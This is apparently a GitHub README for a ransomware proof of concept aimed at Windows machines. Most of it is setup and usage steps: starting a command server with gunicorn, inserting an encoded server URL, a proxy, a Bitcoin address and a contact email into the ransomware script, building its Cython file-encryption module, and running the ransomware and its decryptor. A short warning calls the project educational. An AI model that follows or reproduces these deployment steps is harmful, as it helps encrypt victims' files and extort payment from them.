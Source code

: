 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

```powershell
pip install -r requirements-server.txt
```

2. Run the server:

```powershell
gunicorn -b 0.0.0.0:8080 src.server:app
```

> Or for debugging:

```powershell
python src/server.py
```

### Client (Windows)

1. Install the required packages:

```powershell
pip install -r requirements-other.txt
```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)

   * Replace `YOUR_URL` with your encoded URL using `dx42`:

   ```python
   YOUR_URL = dx42(encoded_url).decode()
   ```

   * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS` similarly.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

```powershell
python src/setup.py build_ext --inplace
Move-Item -Path file_crypto.*.pyd -Destination src -Force
```

4. Run the server (WSGI):

```powershell
gunicorn -b 0.0.0.0:8080 src.server:app
```

5. Run the ransomware:

```powershell
python src/dcry.py
```

6. Run the decryptor:

```powershell
python src/decryptor.py
```

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

* See details in [FAQ.md](docs/FAQ.md)

## Contributing

* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

* See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

* See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

* This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

